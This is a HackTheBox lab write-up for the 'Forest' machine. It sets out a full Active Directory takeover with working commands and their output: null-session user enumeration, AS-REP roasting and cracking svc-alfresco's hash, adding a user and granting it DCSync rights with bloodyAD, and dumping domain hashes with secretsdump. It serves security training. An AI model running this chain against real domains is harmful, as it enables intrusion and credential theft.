 ```yaml
---
title: Forest (Easy) - HackTheBox
date: 2024-05-24 12:00:00 +/-TTTT
categories: [Writeups]
---
```



Forest is an easy level box, which involves pure Active Directory attacks. The box starts out with enumerating all the users within the domain by using a null rpc session. We can then leverage this user list to find an AS-REP roastable user. By AS-REP roasting this user, we are able obatin their hash, which can then be cracked using HashCat. We leverage this user to run Bloodhound and find out we can add ourselves to a high privilaged group, allowing WriteDACL over the domain.

### Initial Enumeration
Run Nmap to see all open ports

``` bash
sudo nmap -sV -sC 10.129.95.210 -oN scan.nmap -v
```

``` bash
# Nmap 7.94SVN scan initiated Wed Sep  4 21:29:53 2024 as: nmap -sV -sC -oN scan.nmap -v 10.129.95.210
Nmap scan report for 10.129.95.210
Host is up (0.051s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-09-05 01:36:50Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h26m49s, deviation: 4h02m31s, median: 6m48s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-09-04T18:36:55-07:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-09-05T01:36:56
|_  start_date: 2024-09-05T01:33:34

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  4 21:30:15 2024 -- 1 IP address (1 host up) scanned in 21.96 seconds
```

See port `88` up as Kerberors, and port `3268` as LDAP, this tells me this is most likely a Windows DC. I started out by checking if null sessions were allowed with SMB.

Running the following proves that a null session is allowed, but unable to list shares

``` bash
$ nxc smb 10.129.95.210 -u "" -p ""  --shares

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\:
SMB         10.129.95.210   445    FOREST           [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

### Foothold via ASREPRoast

#### Creating a Userlist

Due to no access to signifigant access the domain controller through a null session, I decided to use the null session to enumerate users on the machine. If we get a list of valid users I could enumerate users vulnerable to ASREProasting, due to no pre-authentication required 

I first checked it the null session was allowed to enumerate users with NetExec


``` bash
$ nxc smb 10.129.95.210 -u "" -p ""  --users

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\:
SMB         10.129.95.210   445    FOREST           -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.129.95.210   445    FOREST           Administrator                 2021-08-31 00:51:58 0       Built-in account for administering the computer/domain
SMB         10.129.95.210   445    FOREST           Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.129.95.210   445    FOREST           krbtgt                        2019-09-18 10:53:23 0       Key Distribution Center Service Account
SMB         10.129.95.210   445    FOREST           DefaultAccount                <never>             0       A user account managed by the system.
<SNIP>
SMB         10.129.95.210   445    FOREST           svc-alfresco                  2024-09-05 01:44:34 0
SMB         10.129.95.210   445    FOREST           andy                          2019-09-22 22:44:16 0
SMB         10.129.95.210   445    FOREST           mark                          2019-09-20 22:57:30 0
SMB         10.129.95.210   445    FOREST           santi                         2019-09-20 23:02:55 0
```

As seen above the anonymous user is allowed to get all domain users. To get a list of these user, I used rpcclient and vim macros.

``` bash
$ rpcclient -U "" -N 10.129.95.210 -c enumdomusers | tee users.txt
```

Now that I have my users list, I ran `GetNPUsers.py`, which looks for users which do not require pre-authenticaiton, the tool also automatically requests and saves a vulnerable user's hash.

#### Cracking svc-alfresco's hash

``` bash
$ impacket-GetNPUsers 'htb.local/' -dc-ip 10.129.95.210 -usersfile users.txt -format hashcat -outputfile asrep-hashes.txt

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
<SNIP>
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f38d41c0ae6c393c832$a6452ab4d3fbb82b18066ae24e83100677e8e02846cbd0d8b5d6903bd560dbf313da5ec0ca329729a3454e47276bbaa7f7cb9eaf6daeea8204c52a8429f982c63bdc4083225001e21320b559cd538f1a3b02d629e4987eff70d058d9305cd2b9b4de5b008a356fece2b4477c476cf423c99a28b3eee5ae6eecea86e4c9607d0df1ce877486b98acc82f9a348764e81e1f156593329390b86fe3334dda4b1f26d3f71cf3474fe4302b86c6acc0c2b5fc22d750386baccf483f940a97086132d9b035b857470ecce7183f5d98d0eda4d5d3a28cb88ee16d66f7836efd8295ce3878e04715c0bb5
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Running this, the user `svc-alfresco` does not require pre-authentication. Now that the user's hash is saved, I forwarded to hashcat to crack.

```bash
$ hashcat asrep-hashes.txt /usr/share/wordlists/rockyou.txt

$krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f38d41c0ae6c393c832$a6452ab4d3fbb82b18066ae24e83100677e8e02846cbd0d8b5d6903bd560dbf313da5ec0ca329729a3454e47276bbaa7f7cb9eaf6daeea8204c52a8429f982c63bdc4083225001e21320b559cd538f1a3b02d629e4987eff70d058d9305cd2b9b4de5b008a356fece2b4477c476cf423c99a28b3eee5ae6eecea86e4c9607d0df1ce877486b98acc82f9a348764e81e1f156593329390b86fe3334dda4b1f26d3f71cf3474fe4302b86c6acc0c2b5fc22d750386baccf483f940a97086132d9b035b857470ecce7183f5d98d0eda4d5d3a28cb88ee16d66f7836efd8295ce3878e04715c0bb5:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f...5c0bb5
Time.Started.....: Wed Sep  4 22:02:11 2024 (9 secs)
Time.Estimated...: Wed Sep  4 22:02:20 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   447.1 kH/s (0.73ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4085760/14344385 (28.48%)
Rejected.........: 0/4085760 (0.00%)
Restore.Point....: 4085248/14344385 (28.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: s402gercd -> s3r3ndipit
Hardware.Mon.#1..: Util: 70%

Started: Wed Sep  4 22:02:09 2024
Stopped: Wed Sep  4 22:02:22 2024
```


The user's hash is sucessfully cracked and we can now log in as that user

``` bash
$ nxc smb 10.129.95.210 -u "svc-alfresco" -p "s3rvice"

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\svc-alfresco:s3rvice
```


### Abusing ACLs

#### Running Bloodhound

I decided to run Bloodhound to find any possible relations from our current user

``` bash
$ nxc ldap 10.129.95.210 -u "svc-alfresco" -p "s3rvice" --bloodhound -c all --dns-server 10.129.95.210 --dns-tcp

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.129.95.210   389    FOREST           [+] htb.local\svc-alfresco:s3rvice
LDAP        10.129.95.210   389    FOREST           Resolved collection methods: localadmin, acl, objectprops, trusts, group, dcom, psremote, session, rdp, container
LDAP        10.129.95.210   389    FOREST           Done in 00M 17S
LDAP        10.129.95.210   389    FOREST           Compressing output into /home/parallels/.nxc/logs/FOREST_10.129.95.210_2024-09-04_220801_bloodhound.zip
```


Checking this user's transitive object control, I was able to map the following path in Bloodhound.

![bloodhound path](/assets/img/forest/1.png)

Through nested groups, our user is apart of the `Account Operators` AD group, this group allows `GenericAll` rights over the group `EXCHANGE WINDOWS PERMISSIONS`. GenericAll permissions over a group allow us to add a user to that group. Once we have control over `EXCHANGE WINDOWS PERMISSIONS`, we can legerage `WriteDACL` to permit a user DCsync rights over the domain, effectivly compromising the domain through a DCsync attack.

I use `Bloody-AD` to create a new user to be used with this attack, we are allowed to do this because we are in the `Account Operators` group.

``` bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "svc-alfresco" -p "s3rvice" add user "jeff" "password123\!"
[+] jeff created
```

As mentioned earlier, we'll add our new user jeff to `EXCHANGE WINDOWS PERMISSIONS`

``` bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "svc-alfresco" -p "s3rvice" add groupMember "EXCHANGE WINDOWS PERMISSIONS" "jeff"
[+] jeff added to EXCHANGE WINDOWS PERMISSIONS
```
Using the user jeff, we can attempt to add DCSync privilages over the domain


```bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "jeff" -p "password123\!" add dcsync jeff
[+] jeff is now able to DCSync
```

### Domain Comprimise

We can now run secrets dump, given our new privilages.

``` bash
$ secretsdump.py htb.local/jeff:'password123!'@10.129.95.210

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>
```